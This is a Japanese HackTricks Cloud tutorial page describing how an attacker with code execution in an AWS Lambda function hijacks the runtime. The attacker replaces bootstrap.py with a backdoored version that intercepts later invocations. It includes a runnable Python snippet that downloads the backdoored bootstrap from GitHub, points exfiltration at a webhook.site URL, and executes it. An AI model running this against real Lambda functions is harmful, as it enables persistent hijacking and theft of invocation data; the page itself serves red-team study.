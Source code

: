 # AWS - Lambdaリクエストの盗難

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

## Lambdaフロー

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**はコンテナ外のプロセスで、**init**プロセスに**呼び出し**を**送信**します。
2. initプロセスはポート**9001**でリッスンし、いくつかの興味深いエンドポイントを公開しています：
* **`/2018-06-01/runtime/invocation/next`** – 次の呼び出しイベントを取得
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 呼び出しのハンドラー応答を返す
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 実行エラーを返す
3. **bootstrap.py**はinitプロセスから呼び出しを取得するループを持ち、ユーザーのコードを呼び出して処理します（**`/next`**）。
4. 最後に、**bootstrap.py**はinitに**応答**を送信します。

bootstrapはユーザーコードをモジュールとして読み込むため、ユーザーコードによって実行されるコードは実際にはこのプロセス内で発生しています。

## Lambdaリクエストの盗難

この攻撃の目的は、ユーザーのコードが脆弱なリクエストを処理する**`bootstrap.py`**プロセス内で悪意のある**`bootstrap.py`**プロセスを実行させることです。この方法で、**悪意のあるbootstrap**プロセスは**initプロセスと通信を開始**し、リクエストを処理しますが、**正当な**bootstrapは**悪意のあるものを実行しているため、initプロセスにリクエストを要求しません。

これは、ユーザーのコードが正当な**`bootstrap.py`**プロセスによって実行されているため、達成するのは簡単なタスクです。したがって、攻撃者は次のことができます：

* **現在の呼び出しの偽の結果をinitプロセスに送信**し、initがbootstrapプロセスがさらに呼び出しを待っていると考えさせます。
* **`/${invoke-id}/response`**にリクエストを送信する必要があります。
* invoke-idは、正当な**`bootstrap.py`**プロセスのスタックから[**inspect**](https://docs.python.org/3/library/inspect.html) Pythonモジュールを使用して取得することができます（[ここで提案されたように](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）または再度**`/2018-06-01/runtime/invocation/next`**にリクエストすることでも取得できます（[ここで提案されたように](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）。
* 次の呼び出しを処理する悪意のある**`boostrap.py`**を実行します。
* ステルス性の目的で、lambda呼び出しパラメータを攻撃者が制御するC2に送信し、その後リクエストを通常通り処理することが可能です。
* この攻撃では、システムまたは[**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)から**`bootstrap.py`**の元のコードを取得し、悪意のあるコードを追加して、現在のlambda呼び出しから実行するだけで十分です。

### 攻撃手順

1. **RCE**脆弱性を見つける。
2. **悪意のある** **bootstrap**を生成する（例：[https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）。
3. **悪意のあるbootstrapを実行する**。

これらのアクションは簡単に実行できます：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## 参考文献

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

